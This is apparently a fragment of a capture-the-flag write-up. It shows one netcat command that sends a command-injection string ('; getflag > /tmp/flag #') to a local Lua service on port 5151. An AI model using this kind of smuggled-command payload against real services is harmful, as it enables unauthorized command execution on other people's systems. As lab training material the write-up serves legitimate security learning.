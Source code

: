 # Inject getflag command in the lua script
`echo " lol ; getflag > /tmp/flag #" | nc 127.0.0.1 5151`
